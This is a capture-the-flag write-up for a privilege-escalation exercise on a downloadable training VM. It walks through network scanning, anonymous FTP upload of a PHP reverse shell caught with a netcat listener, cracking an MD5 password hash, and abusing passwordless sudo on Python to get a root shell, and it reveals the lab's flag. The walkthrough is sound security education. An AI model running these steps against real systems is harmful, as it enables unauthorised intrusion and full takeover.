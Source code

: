 

# Privilege Escalation Exercise: Detailed Walkthrough

## Summary

This README outlines the steps taken to complete a privilege escalation exercise on a virtual machine (VM). The VM setup had some initial misconfigurations that needed to be addressed to proceed. The goal was to gain root access and retrieve the flag from the root.txt file.

You can dowload the vm [here](https://assets.01-edu.org/cybersecurity/local/01-Local.ova).

####  Warning: All the ip used here are for example purpose don't forget to adapt yours.

## Initial Setup and Discovery

1. ### Identify VM MAC Address:
```sh
VBoxManage showvminfo "01-Local1" | grep MAC:
```
Result:

```sh
MAC: 0800277C1675
```

2. ### Scan Local Network for IP Address:
```sh
sudo arp-scan -l | grep 08:00:27:7c:16:75
```
Result:

```sh
172.16.1.255  08:00:27:7c:16:75  PCS Systemtechnik GmbH
```

3. ### Check for Open Ports:

First, check if ports are filtered by using the `-sA` scan option:
```sh
nmap -sA 172.16.1.255
```

This scan shows whether ports are filtered or unfiltered by the firewall. If the ports are not filtered, it indicates no firewall is handling port traffic.

For a more discreet scan, you could use the `-sI` scan option, which uses a zombie host to make the scan harder to trace. However, for this exercise, we will use the `-sS` (TCP SYN) scan:

```sh
sudo nmap -sS 172.16.1.255
```

The TCP SYN scan, also known as a "half-open" scan, is stealthier as it does not complete the TCP handshake.

Result:

```sh
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

4. ### Check for port Access:

I used to check all the access type and found out this one:
```sh
nmap -p 21 --script=ftp-anon 172.16.1.255
```
Result:

```sh
Anonymous FTP login allowed (FTP code 230)
```

## FTP Connection and Reverse Shell

1. #### Connect to FTP as Anonymous:
```sh
ftp 172.16.1.255
```

Use the anonymous username and no password.

2. #### Upload Reverse Shell Script:

- Click [here](https://zone01normandie.org/git/yyoannle/local/src/branch/master/reverse.php) to look the reverse shell script.

- Upload script using FTP:
```sh
put reverse.sh
```

3. #### Set Up Listener on Attacker Machine:
```sh
nc -lvnp 1234
```

4. #### Trigger the Reverse Shell:

On the attacker machine navigate to:
```url
http://172.16.1.255/files/reverse.php
```

## Privilege Escalation

1. ### Check Current Directory and Files:
```sh
ls -a
```

2. ### Explore Home Directory for Users:
We see a `shrek` user lets keep that in mind.
```sh
cd /home
ls -a
```

We found an `important.txt` file. 

3. ### Read important.txt:
```sh
cat /home/important.txt
```

Result:

```sh
run the script to see the data
/.runme.sh
```

4. ### Find and Read runme.sh:
```sh
find / -name ".runme.sh" 2>/dev/null
cat /.runme.sh
```
Result:
```sh
⠸⡇⠀⠿⡀⠀⠀⠀⣀⡴⢿⣿⣿⣿⣿⣿⣿⣿⣷⣦⡀
⠀⠀⠀⠀⠑⢄⣠⠾⠁⣀⣄⡈⠙⣿⣿⣿⣿⣿⣿⣿⣿⣆
⠀⠀⠀⠀⢀⡀⠁⠀⠀⠈⠙⠛⠂⠈⣿⣿⣿⣿⣿⠿⡿⢿⣆
⠀⠀⠀⢀⡾⣁⣀⠀⠴⠂⠙⣗⡀⠀⢻⣿⣿⠭⢤⣴⣦⣤⣹⠀⠀⠀⢀⢴⣶⣆
⠀⠀⢀⣾⣿⣿⣿⣷⣮⣽⣾⣿⣥⣴⣿⣿⡿⢂⠔⢚⡿⢿⣿⣦⣴⣾⠸⣼⡿
⠀⢀⡞⠁⠙⠻⠿⠟⠉⠀⠛⢹⣿⣿⣿⣿⣿⣌⢤⣼⣿⣾⣿⡟⠉
⠀⣾⣷⣶⠇⠀⠀⣤⣄⣀⡀⠈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⠀⠉⠈⠉⠀⠀⢦⡈⢻⣿⣿⣿⣶⣶⣶⣶⣤⣽⡹⣿⣿⣿⣿⡇
⠀⠀⠀⠀⠀⠀⠀⠉⠲⣽⡻⢿⣿⣿⣿⣿⣿⣿⣷⣜⣿⣿⣿⡇
⠀⠀ ⠀⠀⠀⠀⠀⢸⣿⣿⣷⣶⣮⣭⣽⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⣀⣀⣈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
    shrek:061fe5e7b95d5f98208d7bc89ed2d569
```
The output contains an encrypted string next to shrek. Let's decrypt it.

5. ### Decrypt the Password Hash:
First, check the hash pattern using a hash analyzer tool, which identifies it as MD5 or MD4 hash type. Use an MD5 decryption tool to decrypt the hash:
Result:
```txt
youaresmart
```

6. ### Switch to shrek User:

First we upgrade our remote to a full tty. And after switch on `shrek`:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
su shrek
```

Enter the password: `youaresmart.`

7. ### Check Sudo Privileges:
```sh 
sudo -l
```
Result:
```sh
(root) NOPASSWD: /usr/bin/python3.5
```

8. ### Use Python to Spawn Root Shell:

- Run Python as root:
```sh
sudo /usr/bin/python3.5
```
- In the Python shell:
```sh
import os
os.system("/bin/bash")
```

## Retrieve the Flag

1. ### Navigate to Root Directory:
```sh
cd /root
ls -a
```
2. Read `root.txt`:
```sh
cat /root/root.txt
```

Result:
```sh
  /$$$$$$    /$$     
 /$$$_  $$ /$$$$    
| $$$$\ $$|_  $$     
| $$ $$ $$  | $$    
| $$\ $$$$  | $$    
| $$ \ $$$  | $$    
|  $$$$$$/ /$$$$$$  
 \______/ |______/                                                                           
                                                                           
                                                                           
 /$$                                     /$$   /$$ /$$     /$$             
| $$                                    | $$  / $$/ $$   /$$$$             
| $$        /$$$$$$   /$$$$$$$  /$$$$$$ | $$ /$$$$$$$$$$|_  $$             
| $$       /$$__  $$ /$$_____/ |____  $$| $$|   $$  $$_/  | $$             
| $$      | $$  \ $$| $$        /$$$$$$$| $$ /$$$$$$$$$$  | $$             
| $$      | $$  | $$| $$       /$$__  $$| $$|_  $$  $$_/  | $$             
| $$$$$$$$|  $$$$$$/|  $$$$$$$|  $$$$$$$| $$  | $$| $$   /$$$$$$           
|________/ \______/  \_______/ \_______/|__/  |__/|__/  |______/           
                                                                           
                                                                           
                                                                                                                                                     
Congratulations, You have successfully completed the challenge!
Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky
```

## Conclusion
By following the steps outlined above, the root flag was successfully retrieved from the VM. This exercise demonstrated the process of network discovery, exploiting FTP for initial access, and privilege escalation using available sudo privileges.


Made by **Yoann Letacq**


